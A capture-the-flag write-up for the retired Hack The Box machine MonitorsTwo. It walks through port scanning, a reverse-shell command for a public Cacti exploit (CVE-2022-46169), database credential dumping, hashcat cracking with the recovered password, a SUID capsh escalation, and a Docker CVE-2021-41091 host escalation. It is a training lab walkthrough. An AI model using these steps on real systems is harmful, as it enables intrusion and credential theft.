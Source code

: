 ![Machine Info Card](_images/MonitorsTwo.png)
### retired on (02/09/2023)
# Summary: 
## foothold:
Vulnerable web service which results in a www-data shell inside a docker container. 
## user:
using docker's `entrypoint.sh` script we're able to obtain DB credentials and dump all user's password hashes.
with `hashcat` its possible to crack one of the hashes and get user credentials for SSH.
## root:
Upon logging in with the user to SSH, we see a prompt for `you have mail`. checking the mail shows that the system is vulnerable to several CVE's.
One of the CVE's is about `moby` an open framework created by Docker to assemble specialized container systems.
with `www-data` shell we're able to escalate our privileges using SUID exploitation on `capsh`. and change the permissions of `/bin/bash` inside the container.
which in turn un-privileged users on host machine can find and execute said SUID binary (`/bin/bash`)
# Foothold
```
┌──(kali㉿kali)-[~/HTB/Machines/MonitorsTwo]
└─$ sudo masscan -p1-65535 10.129.109.77 --rate=3000 --wait=0 -e tun0
[sudo] password for kali: 
Sorry, try again.
[sudo] password for kali: 
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2023-09-02 12:48:57 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Discovered open port 80/tcp on 10.129.109.77                                   
Discovered open port 22/tcp on 10.129.109.77
```

```
┌──(kali㉿kali)-[~/HTB/Machines/MonitorsTwo]
└─$ sudo nmap 10.129.109.77 -sV -sC -p 22,80                         
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-02 08:58 EDT
Nmap scan report for 10.129.109.77
Host is up (0.098s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Login to Cacti
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.50 seconds
```

### PORT 80
visiting port 80 we see a login prompt with Version and software name available.
![](_images/Pasted image 20230902160102.png)

searching on google the software and version we're able to find an exploit on github. 

![[Pasted image 20230902160030.png]]
https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22

The exploit requires url, local host and local port. for a reverse shell endpoint.
![[Pasted image 20230902160445.png]]
executing `python3 CVE-2022-46169.py -u http://10.129.109.77/ --LHOST=10.10.16.7 --LPORT=80`
![[Pasted image 20230902160402.png]]

should give us a shell as www-data user.

# USER
## System enumeration
after a quick glimpse it seems we're inside a docker container.
![[Pasted image 20230902160546.png]]

which in turn means there could be an entry script on root directory
![[Pasted image 20230902162019.png]]
which there is.

checking the contents reveals credentials for the database.
![[Pasted image 20230902161019.png]]

## DB enumeration
in order to interact with the DB we need a "full" shell. 
couldn't find python on system, `script` is another way to get a full interactive shell. 
```
script /dev/null -qc /bin/bash
(inside the nc session) CTRL+Z
stty raw -echo; fg;
```

with the shell we're able to login to the db. with the following command.
```
mysql --host=db --user=root --password=root cacti
```
![[Pasted image 20230902161555.png]]
next thing to do is to check which tables are available.
![[Pasted image 20230902161609.png]]

`user_auth` is interesting.
![[Pasted image 20230902161623.png]]

selecting the contents of the table, we get hashes for `admin` and `marcus`
![[Pasted image 20230902161640.png]]
## Cracking hashes
the hashes:
```
admin $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
marcus $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
```

now we can use hashcat to crack the hashes.
```
hashcat -d 1 -m 3200 hashes/HTB/MonitorTwo.txt rockyou.txt
```
cracked hash:
```
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:funkymonkey
```

The cracked hash belongs to marcus.
since SSH port is open we can try these credentials.
![[Pasted image 20230902162834.png]]
which indeed are valid.

# ROOT
### Potential LPE
when connecting with SSH we get a prompt that we have mail.
![[Pasted image 20230902162855.png]]
mail will be saved on `/var/mail/<USER>`
![[Pasted image 20230902163017.png]]
![[Pasted image 20230902163038.png]]
reading the mail we can conclude that there are couple vulnerabilities on the system.
checking `CVE-2021-41091` exploit, which is an exploit for moby for software containerization by docker.
searching online we're able to find an exploit available on github 
![[Pasted image 20230902163344.png]]
The exploit will check if the host is vulnerable and iterate over the available overlay2 filesystems. If the system is indeed vulnerable
but before running the exploit we got to get root on the docker session, and change the permissions of `/bin/bash`. then run the exploit from host machine. 
the script will attempt to gain root access by spawning a shell in the vulnerable path (the filesystem of the Docker container where you executed the setuid command on /bin/bash).
This CVE requires root on docker container in order to exploit.
![[Pasted image 20230902163902.png]]


### Root on docker
after searching for vulnerabilities in the docker container, I've found that there is binary with SUID.
![[Pasted image 20230902164728.png]]

`/sbin/capsh`  has SUID bit on.
![[Pasted image 20230902165019.png]]
using GTFO bin we can exploit the SUID bit.
https://gtfobins.github.io/gtfobins/capsh/

![[Pasted image 20230902165352.png]]

so basically running `/sbin/capsh --gid=0 --uid=0 --`
should result in root shell
![[Pasted image 20230902165527.png]]
next is to set SUID bit on /bin/bash
![[Pasted image 20230902165602.png]]

the only thing left to do is to run the exploit from the host machine.
### Root on host
![[Pasted image 20230902163612.png]]
so we're gonna download the exploit using python server(from my attack machine).
![[Pasted image 20230902165755.png]]

![[Pasted image 20230902165713.png]]

running the exploit:
![[Pasted image 20230902165937.png]]
the exploit didn't spawn us a root shell, but showed the vulnerable path to `/bin/bash` 
![[Pasted image 20230902170009.png]]

now running `/bin/bash -p` from that path will grant us root user.
![[Pasted image 20230902165953.png]]

# additional information
more on root exploit:
`https://www.cyberark.com/resources/threat-research-blog/how-docker-made-me-more-capable-and-the-host-less-secure`

